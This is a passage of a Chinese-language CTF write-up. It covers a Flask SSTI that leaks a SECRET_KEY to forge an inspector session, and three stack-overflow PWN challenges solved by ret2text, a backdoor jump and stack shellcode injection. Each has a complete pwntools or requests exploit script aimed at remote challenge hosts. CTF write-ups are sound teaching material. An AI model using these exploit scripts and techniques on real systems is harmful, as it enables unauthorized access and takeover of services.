curl -i -b cookies.txt -c cookies.txt -X POST "http://47.99.147.34:16610/api/create_profile"
```

这一条请求执行完成后，当前用户会新增一条 `DRAFT` 状态的税务档案。

接下来要确定 `profile_id`。最简单的方法就是回到控制台页面，从页面里的预览链接中把数字抠出来：

```bash
curl -s -b cookies.txt "http://47.99.147.34:16610/dashboard"
```

页面中通常会出现类似这样的链接：

```html
<a href="/preview/1">Preview</a>
```

这里的 `1`​ 就是要用的 `profile_id`​。如果存在多条记录，取自己刚创建出来的最新那一条即可。在自动化脚本里，可以直接用正则去提取 `/preview/(\d+)`。

然后调用导入接口，把状态和 footer 一次性改掉：

```bash
curl -s -b cookies.txt -X POST "http://47.99.147.34:16610/api/import" \
  -H "Content-Type: application/json" \
  -d '{"profile_id":1,"data":{"state":"AUDIT_PENDING","custom_footer":"{{config}}"}}'
```

这一步的构造思路必须说明清楚：

- ​`profile_id` 指向我们自己的 profile
- ​`state`​ 改成 `AUDIT_PENDING`​，是为了强制程序进入 `render_template_string` 那个分支
- ​`custom_footer`​ 改成 `{{config}}`，是为了在模板渲染时直接输出 Flask 配置对象

这个 payload 的好处是非常稳：

- 不需要命令执行
- 不依赖复杂链子
- 不碰黑名单里的危险字符
- 只做一件事：把运行时配置吐出来

接着访问预览页面触发 SSTI：

```bash
curl -s -b cookies.txt "http://47.99.147.34:16610/preview/1"
```

响应中会出现一大段经过 HTML 实体编码的配置对象内容，关键部分大致如下：

```text
<Config {'ENV': 'production', ... , 'SECRET_KEY': 'secret_tax_key_2026_xoxo', ... }>
```

这里能看出两个重要结论：

- 程序确实把 `config` 整体打印出来了
- 运行时真实 `SECRET_KEY`​ 是 `secret_tax_key_2026_xoxo`

这一步也顺便验证了前面对 `config.py`​ 的判断：源码中的默认值 `this_is_a_very_secret_key_for_tax_system_2026` 并不是线上真实密钥，真正生效的是环境变量覆盖后的值。所以如果只看源码而不做信息泄露，这里就会走偏。

**利用泄露出的 SECRET_KEY 伪造 Flask session**

Flask 默认的 session 本质上是“客户端可见、服务端签名”的 cookie。只要知道 `SECRET_KEY`，本地就可以按 Flask 原本的算法重新签发任意内容的 session。

最稳的做法是直接使用 Flask 自带的 `SecureCookieSessionInterface`：

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

secret_key = "secret_tax_key_2026_xoxo"

app = Flask(__name__)
app.secret_key = secret_key
serializer = SecureCookieSessionInterface().get_signing_serializer(app)
forged_session = serializer.dumps({"user_id": 1, "role": "tax_inspector"})
print(forged_session)
```

这段代码的逻辑并不复杂：

- 新建一个本地 Flask 应用对象
- 把刚刚泄露出来的真实 `SECRET_KEY` 填进去
- 获取 Flask 默认 session 使用的签名器
- 构造一个新的 session 数据：

  - ​`user_id`​ 仍然保留为 `1`
  - ​`role`​ 从原来的 `admin`​ 改成 `tax_inspector`
- 用同样的算法重新签名并序列化

生成出来的伪造 cookie 形如：

```text
eyJ1c2VyX2lkIjoxLCJyb2xlIjoidGF4X2luc3BlY3RvciJ9.ahqDfQ.WoF4Vo_T5JMdpSzm3Tr4v39iGyk
```

然后带着这个 cookie 去访问金库：

```bash
curl -s -b "session=eyJ1c2VyX2lkIjoxLCJyb2xlIjoidGF4X2luc3BlY3RvciJ9.ahqDfQ.WoF4Vo_T5JMdpSzm3Tr4v39iGyk" \
  "http://47.99.147.34:16610/admin/vault"
```

如果成功，页面会返回包含 flag 的 HTML 内容。也就是说，最后真正突破权限的不是弱口令本身，而是：

- 弱口令负责给我们一个合法登录态
- SSTI 负责泄露运行时 `SECRET_KEY`
- ​`SECRET_KEY` 负责让我们有能力伪造更高权限的 session
- 最终用伪造 session 绕过 `tax_inspector` 权限检查，读取数据库中的 flag

**完整 EXP**

```python
import re
import requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

BASE = "http://47.99.147.34:16610"

s = requests.Session()
s.headers.update({"User-Agent": "Mozilla/5.0"})

s.post(
    f"{BASE}/login",
    data={"username": "admin", "password": "123456"},
    allow_redirects=False,
    timeout=20,
)

s.post(
    f"{BASE}/api/create_profile",
    allow_redirects=False,
    timeout=20,
)

r = s.get(f"{BASE}/dashboard", timeout=20)
ids = sorted({int(x) for x in re.findall(r"/preview/(\d+)", r.text)} or {1})
pid = ids[-1]

s.post(
    f"{BASE}/api/import",
    json={
        "profile_id": pid,
        "data": {
            "state": "AUDIT_PENDING",
            "custom_footer": "{{config}}",
        },
    },
    timeout=20,
)

r = s.get(f"{BASE}/preview/{pid}", timeout=20)
secret_key = re.search(r"'SECRET_KEY':\s*'([^&]+)'", r.text).group(1)
print("SECRET_KEY:", secret_key)

app = Flask(__name__)
app.secret_key = secret_key
serializer = SecureCookieSessionInterface().get_signing_serializer(app)
forged = serializer.dumps({"user_id": 1, "role": "tax_inspector"})
print("FORGED SESSION:", forged)

r = requests.get(
    f"{BASE}/admin/vault",
    cookies={"session": forged},
    timeout=20,
)

flag = re.search(r"flag\{[^}]+\}", r.text).group(0)
print("FLAG:", flag)
```

执行方式：

```bash
python solve.py
```

预期输出：

```text
SECRET_KEY: secret_tax_key_2026_xoxo
FORGED SESSION: eyJ1c2VyX2lkIjoxLCJyb2xlIjoidGF4X2luc3BlY3RvciJ9.ahqDfQ.WoF4Vo_T5JMdpSzm3Tr4v39iGyk
FLAG: flag{c5b34df2e74dc988b73fdca3541f9238}
```

flag ：flag{c5b34df2e74dc988b73fdca3541f9238}

## PWN

### Authenticate

> 题目内容：一个简单的用户认证系统，通过 gets() 函数造成栈缓冲区溢出，执行文件自带后门  
> 题目难度：初级  
> 题目分类：PWN  
> 题目分值：200

思路：



接下来先看看程序里有哪些可疑符号，可以直接用：

```bash
strings -a vuln | grep -E "backdoor|/bin/sh|admin|Password|Username"
nm -n vuln | grep -E " backdoor| login| main"
```

能看到几个很关键的东西：

- 字符串里有 `/bin/sh`
- 有 `backdoor`
- 有 `login`
- 有 `admin`

这时候基本可以确认，后门函数十有八九就是直接起 shell。

为了把逻辑看清楚，我用 `objdump` 看了关键函数：

```bash
objdump -d -Mintel vuln | sed -n '/<backdoor>/,/<.*>:/p;/<login>/,/<.*>:/p;/<main>/,/<.*>:/p'
```

关键汇编如下。

```asm
00000000004011f6 <backdoor>:
  4011f6: f3 0f 1e fa          endbr64
  4011fa: 55                   push   rbp
  4011fb: 48 89 e5             mov    rbp,rsp
  4011fe: 48 8d 3d 03 0e 00 00 lea    rdi,[rip+0xe03]        # 402008
  401205: e8 b6 fe ff ff       call   4010c0 <system@plt>
  40120a: 90                   nop
  40120b: 5d                   pop    rbp
  40120c: c3                   ret
```

这个函数非常直白，核心就两步：

1. 把 `/bin/sh`​ 的地址放到 `rdi`
2. 调用 `system`

也就是说，只要程序执行流能跳到 `0x4011f6`，我们就直接拿 shell。

然后是漏洞函数 `login()`：

```asm
000000000040120d <login>:
  40120d: f3 0f 1e fa          endbr64
  401211: 55                   push   rbp
  401212: 48 89 e5             mov    rbp,rsp
  401215: 48 83 c4 80          add    rsp,0xffffffffffffff80
  401219: 48 8d 3d f0 0d 00 00 lea    rdi,[rip+0xdf0]
  401220: e8 7b fe ff ff       call   4010a0 <puts@plt>
  401225: 48 8d 3d 09 0e 00 00 lea    rdi,[rip+0xe09]
  40122c: b8 00 00 00 00       mov    eax,0x0
  401231: e8 9a fe ff ff       call   4010d0 <printf@plt>
  401236: 48 8d 45 c0          lea    rax,[rbp-0x40]
  40123a: ba 40 00 00 00       mov    edx,0x40
  40123f: 48 89 c6             mov    rsi,rax
  401242: bf 00 00 00 00       mov    edi,0x0
  401247: b8 00 00 00 00       mov    eax,0x0
  40124c: e8 8f fe ff ff       call   4010e0 <read@plt>
  401251: 48 8d 3d e8 0d 00 00 lea    rdi,[rip+0xde8]
  401258: b8 00 00 00 00       mov    eax,0x0
  40125d: e8 6e fe ff ff       call   4010d0 <printf@plt>
  401262: 48 8d 45 80          lea    rax,[rbp-0x80]
  401266: 48 89 c7             mov    rdi,rax
  401269: b8 00 00 00 00       mov    eax,0x0
  40126e: e8 8d fe ff ff       call   401100 <gets@plt>
  401273: 48 8d 45 c0          lea    rax,[rbp-0x40]
  401277: 48 8d 35 cd 0d 00 00 lea    rsi,[rip+0xdcd]
  40127e: 48 89 c7             mov    rdi,rax
  401281: e8 6a fe ff ff       call   4010f0 <strcmp@plt>
  401286: 85 c0                test   eax,eax
  401288: 75 0e                jne    401298 <login+0x8b>
  40128a: 48 8d 3d c7 0d 00 00 lea    rdi,[rip+0xdc7]
  401291: e8 0a fe ff ff       call   4010a0 <puts@plt>
  401296: eb 0c                jmp    4012a4 <login+0x97>
  401298: 48 8d 3d e1 0d 00 00 lea    rdi,[rip+0xde1]
  40129f: e8 fc fd ff ff       call   4010a0 <puts@plt>
  4012a4: 90                   nop
  4012a5: c9                   leave
  4012a6: c3                   ret
```

把它还原成更好读的 C 逻辑，大概就是这样：

```c
void backdoor() {
    system("/bin/sh");
}

void login() {
    char password[0x80];
    char username[0x40];

    puts("=== Welcome to SecureAuth System ===");
    printf("Username: ");
    read(0, username, 0x40);

    printf("Password: ");
    gets(password);

    if (!strcmp(username, "admin")) {
        puts("Access Denied: Admin login is disabled.");
    } else {
        puts("Invalid credentials.");
    }
}
```

这里真正要盯的是 `gets(password)` 这一句。它的问题不是“可能有点危险”，而是根本不做长度检查，后面你输多少，它就往栈上写多少。结合函数栈布局：

- ​`password`​ 在 `rbp-0x80`
- 保存的 `rbp`​ 在 `rbp`
- 返回地址在 `rbp+0x8`

所以从 `password` 开头写到返回地址，一共需要：

$$
0x80 + 0x8 = 0x88 = 136
$$

这就是理论上的覆盖偏移。

这里顺手解释一下为什么用户名那段 `read(0, username, 0x40)` 虽然也挺粗暴，但不是这题的利用核心：

- 它最多读 `0x40`​ 字节，刚好就是 `username` 缓冲区大小，本身不越界。
- 真正越界的是后面的 `gets(password)`。
- 认证逻辑本身也不重要，因为无论用户名对不对，`login()`​ 最后都会 `ret`​，而我们要劫持的就是这个 `ret`。

虽然从栈布局上已经能直接算出偏移是 `136`​，但实际做题我还是建议本地动态验证一下。最稳的办法不是把两次输入一次性重定向喂进去，而是用 pwntools 按程序提示一步步交互。因为前面的 `read(0, username, 0x40)` 是原始读，如果你用文件重定向批量喂数据，它可能会把后续本来准备给密码的数据一起吃进去，导致你误判偏移。

本地验证脚本我写得很简单，只测一件事：`offset=136`​ 时，加不加 `ret`，哪种链能真正把 shell 拉起来。

```python
from pwn import *

context.binary = elf = ELF('./vuln', checksec=False)
context.log_level = 'error'

ret = 0x40101a
backdoor = elf.symbols['backdoor']

for off in range(120, 161, 8):
    for use_ret in (False, True):
        io = process(elf.path)
        io.recvuntil(b'Username: ')
        io.sendline(b'user')
        io.recvuntil(b'Password: ')

        chain = (p64(ret) if use_ret else b'') + p64(backdoor)
        io.sendline(b'A' * off + chain)
        io.sendline(b'echo PWNED; id; exit')

        data = io.recvrepeat(0.6)
        if b'PWNED' in data or b'uid=' in data:
            print(off, use_ret, data)
        io.close()
```

最后实际打出来的有效组合是：

- 偏移：`136`
- 链子：`ret -> backdoor`

也就是说，这题虽然目标函数很简单，但直接 `payload = b'A' * 136 + p64(backdoor)`​ 并不稳，最好先垫一个 `ret`​。原因是 amd64 下很多时候要注意栈对齐，尤其是跳转后要继续调用 `system()`​ 这种 libc 函数时，栈没对齐很容易直接崩。这里补一个单独的 `ret`，就是为了把栈重新调到一个更安全的位置。

那个 `ret` gadget 我是这样找的：

```python
from pwn import *

elf = ELF('./vuln', checksec=False)
print(hex(elf.symbols['backdoor']))
print(hex(next(elf.search(asm('ret')))))
```

拿到的地址分别是：

- ​`backdoor = 0x4011f6`
- ​`ret = 0x40101a`

所以最终 payload 很简单：

```python
payload = b'A' * 136 + p64(0x40101a) + p64(0x4011f6)
```

这条链的意思就是：

1. 用 `136`​ 个字节填满 `password` 到返回地址之间的空间。
2. 先把返回地址改成一个单独的 `ret`，做栈对齐。
3. 再从这个 `ret`​ 返回到 `backdoor()`。
4. ​`backdoor()`​ 内部执行 `system("/bin/sh")`，直接给 shell。

接下来就是写远程利用。因为这题完全不需要泄漏，脚本能短就尽量短，保持可读性最好。最终 EXP 如下：

```python
from pwn import *

HOST = "47.99.147.34"
PORT = 15420
LOCAL = False

context.binary = elf = ELF("./vuln", checksec=False)
context.arch = "amd64"

RET = 0x40101A
BACKDOOR = elf.symbols["backdoor"]
OFFSET = 136


def start():
    if LOCAL:
        return process(elf.path)
    return remote(HOST, PORT)


def build_payload():
    return flat(
        b"A" * OFFSET,
        p64(RET),
        p64(BACKDOOR),
    )


def exploit():
    io = start()
    io.recvuntil(b"Username: ")
    io.sendline(b"user")
    io.recvuntil(b"Password: ")
    io.sendline(build_payload())
    return io


if __name__ == "__main__":
    io = exploit()
    io.interactive()
```

```bash
cat /flag
```

远程环境里 `flag` 就在根目录，实际输出如下：

```text
Invalid credentials.
flag{8b1cbc3692f307ff52c337fdd368246b}
```

flag：flag{8b1cbc3692f307ff52c337fdd368246b}

### NoteService

> 题目内容：笔记服务存在栈溢出漏洞，在 NX 保护开启的情况下，利用程序自带的后门函数实现 ret2text 攻击  
> 题目难度：初级  
> 题目分类：PWN  
> 题目分值：400

思路：

这题是很标准的 `ret2text`​。题目已经把范围圈得很死了：有栈溢出，`NX`​ 开着，程序自己还带后门函数。那整个利用思路其实就一句话，想办法把返回地址改到程序 `.text` 段里的后门函数上，不碰 shellcode，也不碰 libc 泄漏。

我这边拿到附件之后，先做的不是上来就写脚本，而是先确认三件事：

1. 保护开了哪些。
2. 漏洞点到底在哪。
3. 程序里有没有现成的 `win`​ 函数或者 `system("/bin/sh")` 这种送分终点。

先看二进制基本信息：

```bash
file vuln
checksec --file=vuln
```

这题的关键信息是：

- 架构：`amd64`
- ​`NX enabled`
- ​`No PIE`
- ​`No Canary`
- ​`Partial RELRO`
- 没有 strip，符号还在

这个结果一出来，其实利用方向就很清楚了。

- ​`NX enabled` 说明不能像最原始那种栈上写 shellcode 直接执行。
- ​`No PIE` 说明程序本体地址固定，后门函数地址可以直接硬打。
- ​`No Canary` 说明覆盖返回地址不会先被栈保护拦住。

所以这题最合理的路线就是 `ret2text`，也就是直接返回到程序本身的代码段里。

接下来我会先扫一遍字符串和符号，看看有没有明显的后门痕迹：

```bash
strings -a vuln | grep -E "/bin/sh|note|secret|system"
nm -n vuln | grep -E " secret| vuln| main"
```

扫完以后，几个关键信息很快就跳出来了：

- 有 `/bin/sh`
- 有 `secret_note`
- 有 `vuln`

看到这三个东西基本就可以判断：`secret_note()`​ 大概率就是那个后门函数，`vuln()` 大概率就是溢出点。

为了不靠猜，我接着用反汇编把关键函数拆开看。这里我用的是 `objdump`​ 和 `radare2`，命令都很常规：

```bash
objdump -d -Mintel vuln | sed -n '/<secret_note>/,/<.*>:/p;/<vuln>/,/<.*>:/p;/<main>/,/<.*>:/p'
```

```bash
r2 -q -c 'aaa; s main; pdf; s sym.vuln; pdf; s sym.secret_note; pdf; q' ./vuln
```

先看后门函数 `secret_note()` 的关键汇编：

```asm
0000000000401196 <secret_note>:
  401196: f3 0f 1e fa          endbr64
  40119a: 55                   push   rbp
  40119b: 48 89 e5             mov    rbp,rsp
  40119e: 48 8d 3d 5f 0e 00 00 lea    rdi,[rip+0xe5f]        # 402004
  4011a5: e8 d6 fe ff ff       call   401080 <system@plt>
  4011aa: 90                   nop
  4011ab: 5d                   pop    rbp
  4011ac: c3                   ret
```

这个函数其实没什么好绕的，逐行看就行：

- ​`lea rdi, [rip+...]`​：把某个字符串地址放进 `rdi`
- ​`call system@plt`​：把刚才那个字符串当参数传给 `system`

结合前面的 `strings`​ 结果，那个字符串就是 `/bin/sh`。所以这个函数的真实作用就是：

```c
void secret_note() {
    system("/bin/sh");
}
```

也就是说，这题的终点已经给你摆在那了，根本不需要自己拼 `system("/bin/sh")` 的 ROP 链。

再看漏洞函数 `vuln()`：

```asm
00000000004011ad <vuln>:
  4011ad: f3 0f 1e fa          endbr64
  4011b1: 55                   push   rbp
  4011b2: 48 89 e5             mov    rbp,rsp
  4011b5: 48 83 ec 40          sub    rsp,0x40
  4011b9: 48 8d 3d 4c 0e 00 00 lea    rdi,[rip+0xe4c]
  4011c0: e8 ab fe ff ff       call   401070 <puts@plt>
  4011c5: 48 8d 3d 55 0e 00 00 lea    rdi,[rip+0xe55]
  4011cc: e8 9f fe ff ff       call   401070 <puts@plt>
  4011d1: 48 8d 45 c0          lea    rax,[rbp-0x40]
  4011d5: ba 00 01 00 00       mov    edx,0x100
  4011da: 48 89 c6             mov    rsi,rax
  4011dd: bf 00 00 00 00       mov    edi,0x0
  4011e2: e8 a9 fe ff ff       call   401090 <read@plt>
  4011e7: 48 8d 3d 44 0e 00 00 lea    rdi,[rip+0xe44]
  4011ee: e8 7d fe ff ff       call   401070 <puts@plt>
  4011f3: 90                   nop
  4011f4: c9                   leave
  4011f5: c3                   ret
```

这个函数的核心逻辑翻成 C，大概就是：

```c
void vuln() {
    char buf[0x40];

    puts("=== Note Service ===");
    puts("Leave your note:");
    read(0, buf, 0x100);
    puts("Note saved. Thank you!");
}
```

这里的漏洞点非常直白，甚至有点“题目写给你看”的意思：

- 栈上缓冲区 `buf`​ 只有 `0x40`
- 但是 `read()`​ 一口气读 `0x100`

也就是说，最多会多写：

$$
0x100 - 0x40 = 0xc0
$$

这个量足够把保存的 `rbp` 和返回地址都覆盖掉了。

真正要打的是返回地址，所以我们还要再算一次从 `buf` 开头到返回地址的精确偏移。

函数栈布局是这样的：

- ​`buf`​ 在 `rbp - 0x40`
- 保存的 `rbp`​ 在 `rbp`
- 返回地址在 `rbp + 0x8`

所以偏移就是：

$$
0x40 + 0x8 = 0x48 = 72
$$

这个 `72` 就是覆盖到返回地址所需要的填充长度。

到这里利用链已经快拼完了，但我不会只靠静态分析就直接下结论，因为 amd64 上还有一个很常见的坑：栈对齐。

很多题看起来是“覆盖返回地址跳到后门函数就完事”，实际一打会发现直接崩。原因通常不是偏移错了，而是后门函数里又会调用 `system()` 这种 libc 函数，调用前栈如果没有 16 字节对齐，很容易炸掉。所以我这里本地验证的时候，专门检查了两个版本：

1. 只跳 `secret_note`
2. 先补一个单独的 `ret`​，再跳 `secret_note`

找 `ret` gadget 的方法很简单，直接交给 pwntools：

```python
from pwn import *

elf = ELF('./vuln', checksec=False)
rop = ROP(elf)
print(hex(elf.symbols['secret_note']))
print(hex(rop.find_gadget(['ret'])[0]))
```

拿到的关键地址是：

- ​`secret_note = 0x401196`
- ​`ret = 0x40101a`

然后我做了一个很小的本地验证脚本，目的只有一个：确认正确链子到底是不是 `72 + ret + secret_note`。

```python
from pwn import *

context.binary = elf = ELF('./vuln', checksec=False)
context.log_level = 'error'

ret = 0x40101a
win = elf.symbols['secret_note']

io = process('./vuln')
payload = b'A' * 72 + p64(ret) + p64(win)
io.send(payload)
print(io.recvuntil(b'Thank you!'))
io.sendline(b'echo PWNED; id; exit')
print(io.recvrepeat(1).decode())
io.close()
```

这里有个交互细节很关键，我单独说一下，不然很多人本地会误以为链子没成。

​`vuln()` 用的是：

```c
read(0, buf, 0x100);
```

​`read`​ 和 `gets`​、`scanf("%s")`​ 这种不一样，它不是看到换行就一定停。也就是说，如果你在脚本里把 payload 和后续命令一股脑连续发过去，后面的 `echo PWNED; id; exit`​ 很可能会被前面的 `read()` 一起吃进缓冲区里，根本进不到 shell 里。

所以正确节奏是：

1. 先只发 payload
2. 等程序把 `Note saved. Thank you!` 打出来
3. 说明 `vuln()` 已经跑完，马上就要从被改掉的返回地址跳走了
4. 这时候再往 shell 里发命令

我本地验证时的输出是：

```text
=== Note Service ===
Leave your note:
Note saved. Thank you!

PWNED
uid=0(root) gid=0(root) groups=0(root)
```

这个结果就说明链子已经完全走通了。

所以最终 payload 其实非常短：

```python
payload = b'A' * 72 + p64(0x40101a) + p64(0x401196)
```

这三个部分分别在干什么：

1. ​`b'A' * 72`

   - 填满 `buf`​，继续覆盖保存的 `rbp`，直到返回地址位置。
2. ​`p64(0x40101a)`

   - 先执行一个 `ret`，把栈调整到更稳的对齐状态。
3. ​`p64(0x401196)`

   - 返回到 `secret_note()`​，内部直接 `system("/bin/sh")`。

这题是 `ret2text`​，不是 `ret2libc`，所以完全不需要：

- 泄漏 libc
- 算 libc base
- 找 `system` 偏移
- 找 `/bin/sh` 偏移

这些步骤都可以直接省掉，因为题目已经把 `system("/bin/sh")` 封装在程序自己的代码段里了。

最后的远程 EXP 我保留得很简洁，只留关键逻辑：

```python
from pwn import *

HOST = "47.99.147.34"
PORT = 21314

context.binary = elf = ELF("./vuln", checksec=False)
context.arch = "amd64"

OFFSET = 72
RET = 0x40101A
SECRET_NOTE = elf.symbols["secret_note"]


def exploit():
    io = remote(HOST, PORT)
    payload = flat(
        b"A" * OFFSET,
        p64(RET),
        p64(SECRET_NOTE),
    )
    io.send(payload)
    io.recvuntil(b"Thank you!")
    return io


if __name__ == "__main__":
    io = exploit()
    io.sendline(b"cat /flag")
    io.interactive()
```

远程利用时我实际验证了一下，`/flag`​ 和当前目录下的 `flag` 都能读到同一个值，所以任意一种都可以：

```bash
cat /flag
```

或者

```bash
cat flag
```

远程返回结果如下：

```text
=== Note Service ===
Leave your note:
Note saved. Thank you!

flag{d9fcee27c6a249b046bfd61de6825aab}
```

flag：flag{d9fcee27c6a249b046bfd61de6825aab}

### MessageBoard

> 题目内容：一个留言板程序，输出了栈地址并存在 read() 溢出，考查基础的 shellcode 注入  
> 题目难度：初级  
> 题目分类：PWN  
> 题目分值：200

思路：

把附件 vuln.zip 解压后得到一个 Linux 下的可执行文件 vuln。第一步用 file 命令确认架构和链接方式：

```bash
file vuln
```

得到的关键信息如下：

```
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=...,
for GNU/Linux 3.2.0, not stripped
```

可以读出几个事实：

- 程序是 64 位 x86 的 ELF
- 动态链接，使用标准 ld-linux 解释器
- not stripped，符号表完整，逆向工作量极小

接着用 checksec 看保护机制：

```bash
checksec --file=vuln
```

输出的核心字段如下：

- Arch：amd64-64-little
- RELRO：Partial RELRO
- Stack：No canary found
- NX：disabled（GNU_STACK 缺失，栈可执行）
- PIE：No PIE，基址固定 0x400000
- RWX：Has RWX segments

这里能直接得到一个非常关键的结论：栈可执行 + 无 Canary + 无 PIE。这意味着只要能在栈上写入任意字节并控制返回地址跳到我们写入的位置，就可以直接执行 shellcode，连 ROP 都不用做。这条结论决定了后面的整个利用思路。

‍

由于二进制 not stripped，符号表里直接能看到 main、vuln 等函数名。先用 radare2 把整体函数列表拉出来。

执行的命令：

```bash
r2 -A vuln
> afl
```

得到的关键函数：

- main 位于 0x401208
- vuln 位于 0x401196
- sym.imp.read、sym.imp.printf、sym.imp.puts、sym.imp.setbuf

main 内容很短，先反汇编 main：

```bash
> s main
> pdf
```

main 的反汇编片段如下：

```asm
0x00401208      f30f1efa       endbr64
0x0040120c      55             push rbp
0x0040120d      4889e5         mov rbp, rsp
0x00401210      488b05592e..   mov rax, qword [obj.stdin]
0x00401217      be00000000     mov esi, 0
0x0040121c      4889c7         mov rdi, rax
0x0040121f      e85cfeffff     call sym.imp.setbuf
0x00401224      488b05352e..   mov rax, qword [obj.stdout]
0x0040122b      be00000000     mov esi, 0
0x00401230      4889c7         mov rdi, rax
0x00401233      e848feffff     call sym.imp.setbuf
0x00401238      488b05412e..   mov rax, qword [obj.stderr]
0x0040123f      be00000000     mov esi, 0
0x00401244      4889c7         mov rdi, rax
0x00401247      e834feffff     call sym.imp.setbuf
0x0040124c      b800000000     mov eax, 0
0x00401251      e840ffffff     call sym.vuln
0x00401256      b800000000     mov eax, 0
0x0040125b      5d             pop rbp
0x0040125c      c3             ret
```

逐行解释 main 的逻辑：

- endbr64 是 Intel CET 的 indirect branch 检查指令，对当前题目利用没有影响
- push rbp / mov rbp, rsp 是标准函数栈帧建立
- 三次 setbuf(stream, NULL) 把 stdin、stdout、stderr 全部关掉缓冲，避免远程交互时 puts 输出停留在缓冲区里
- call sym.vuln 进入漏洞函数，main 本身没有任何输入

由此可以判断所有有趣的逻辑都集中在 sym.vuln 中。继续反汇编 vuln：

```bash
> s sym.vuln
> pdf
```

vuln 的反汇编结果如下：

```asm
0x00401196      f30f1efa       endbr64
0x0040119a      55             push rbp
0x0040119b      4889e5         mov rbp, rsp
0x0040119e      4883c480       add rsp, 0xffffffffffffff80   ; sub rsp, 0x80
0x004011a2      488d3d5b0e..   lea rdi, str._Message_Board_  ; "=== Message Board ==="
0x004011a9      e8c2feffff     call sym.imp.puts
0x004011ae      488d3d650e..   lea rdi, str.Leave_your_message_below
0x004011b5      e8b6feffff     call sym.imp.puts
0x004011ba      488d4580       lea rax, [rbp - 0x80]         ; rax = &buf
0x004011be      4889c6         mov rsi, rax                  ; printf 第二个参数
0x004011c1      488d3d6c0e..   lea rdi, str.Buffer_at:__p_n  ; "Buffer at: %p\n"
0x004011c8      b800000000     mov eax, 0
0x004011cd      e8befeffff     call sym.imp.printf           ; 打印 buf 真实地址
0x004011d2      488d3d6a0e..   lea rdi, str.Message:         ; "Message: "
0x004011d9      b800000000     mov eax, 0
0x004011de      e8adfeffff     call sym.imp.printf
0x004011e3      488d4580       lea rax, [rbp - 0x80]         ; rax = &buf
0x004011e7      ba00010000     mov edx, 0x100                ; size = 0x100
0x004011ec      4889c6         mov rsi, rax                  ; void *buf
0x004011ef      bf00000000     mov edi, 0                    ; fd = 0
0x004011f4      e8a7feffff     call sym.imp.read             ; read(0, buf, 0x100)
0x004011f9      488d3d4d0e..   lea rdi, str.Thank_you_for_your_message_
0x00401200      e86bfeffff     call sym.imp.puts
0x00401205      90             nop
0x00401206      c9             leave
0x00401207      c3             ret
```

根据反汇编可以还原出对应的 C 伪代码，等价于：

```c
void vuln(void) {
    char buf[0x80];                         // [rbp-0x80]
    puts("=== Message Board ===");
    puts("Leave your message below:");
    printf("Buffer at: %p\n", buf);         // 把栈上 buf 的真实地址打印出来
    printf("Message: ");
    read(0, buf, 0x100);                    // 读 0x100 字节进 0x80 大小的栈缓冲
    puts("Thank you for your message!");
}
```

逐行分析关键指令：

- add rsp, 0xffffffffffffff80 等价于 sub rsp, 0x80，给局部变量 buf 在栈上预留 0x80 字节空间，buf 起点为 rbp - 0x80
- lea rax, qword ptr [rbp - 0x80] 后传给 printf 的第二个参数，配合 Buffer at: %p\n 把 buf 在当前栈帧中的真实地址直接吐出来。这是一个免费的栈地址泄露
- read(0, buf, 0x100) 中：

  - 第一参数 fd = 0，从标准输入读
  - 第二参数 rsi = &buf，目标地址 rbp - 0x80
  - 第三参数 edx = 0x100，最大长度 256 字节
- buf 容量是 0x80 = 128，read 上限是 0x100 = 256，明显的栈溢出。

从 buf 起点到返回地址的距离计算：

- buf 占 0x80 字节
- 上面紧接着是保存的 rbp，占 8 字节
- 再上面就是 saved rip，也就是返回地址

所以从 buf 开头写到 ret 需要的偏移是：

$$
\mathrm{offset} = 0x80 + 8 = 0x88 = 136
$$

把上面拿到的事实串起来就是完整的利用链：

1. 栈可执行：可以直接把 shellcode 写在栈上让 CPU 执行
2. 程序主动 printf 出 buf 真实地址：不需要任何额外信息泄露，第一次 recv 就能拿到
3. read 长度大于 buf 长度：可以溢出覆盖到 saved rip
4. 没有 canary、没有 PIE：覆盖返回地址不需要绕过任何检查

利用结构非常直白，把 shellcode 写在 buf 起点，然后用 buf 的真实地址覆盖返回地址，函数 ret 时直接跳进 buf 中，开始执行 shellcode 拿到 shell。

栈上 payload 的内存布局如下：

- buf 起点开始：shellcode 本体
- shellcode 之后到偏移 0x88 之间：用 0x90 nop 字节填充
- 偏移 0x88 处：写上 buf 的真实地址 buf_addr，作为新的返回地址

shellcode 用 pwntools 的 shellcraft.amd64.linux.sh() 生成，长度大约 48 字节，远小于 0x80，完全装得下。

先在本地跑一遍验证偏移和 shellcode 正确性。pwntools 拉起本地进程后接收 Buffer at:，然后构造 payload。本地直接拿到 shell，本地放的伪 flag 文件也成功被读出，证明利用链完全跑通。

接着切到远程：

```bash
python3 exp.py REMOTE
```

第一次远程交互发现一个细节问题：远端是一个裁剪过的 chroot 沙箱，只有 sh + 极少数命令，常见的 id、find、head 都不存在；并且 /dev/null 不可写，任何 2>/dev/null 都会触发 sh 报错。所以原本想自动探索环境的命令大部分会出错，但这并不影响 cat 本身。把命令简化到只用 cat 后，flag 顺利出来。

ls -la 拿到的目录布局如下，flag 文件确实就在工作目录根下：

- /flag 权限 -rwxr----- 属主 root 属组 1000
- /vuln 是题目程序
- /vuln.c 题目源码也在，但远端用户没有读权限（实际无所谓，本地反编译已经拿到等价信息）

直接 cat /flag 就能读到 flag。

exp：

```python
from pwn import *

context.binary = './vuln'
context.arch   = 'amd64'
context.log_level = 'info'

REMOTE_HOST = '120.27.146.76'
REMOTE_PORT = 19743

def get_io():
    if args.REMOTE:
        return remote(REMOTE_HOST, REMOTE_PORT)
    return process('./vuln')

def main():
    io = get_io()

    # 拿到栈上 buf 地址
    io.recvuntil(b'Buffer at: ')
    buf_addr = int(io.recvline().strip(), 16)
    log.success(f'leak buf @ {hex(buf_addr)}')

    # 生成 execve("/bin/sh") shellcode
    sc = asm(shellcraft.amd64.linux.sh())

    # 偏移 0x88 = 0x80 buf + 8 saved rbp
    payload = sc.ljust(0x88, b'\x90') + p64(buf_addr)

    io.recvuntil(b'Message: ')
    io.send(payload)
    io.recvuntil(b'Thank you for your message!\n', timeout=3)

    io.sendline(b'cat /flag')
    io.sendline(b'cat flag')

    out = io.recvrepeat(2).decode(errors='replace')
    print(out)

    import re
    m = re.search(r'flag\{[^}]+\}', out)
    if m:
        log.success(f'FLAG => {m.group(0)}')

    io.close()

if __name__ == '__main__':
    main()
```

flag ：flag{5e76f1da370f72f3dbac204eade3f3b7}

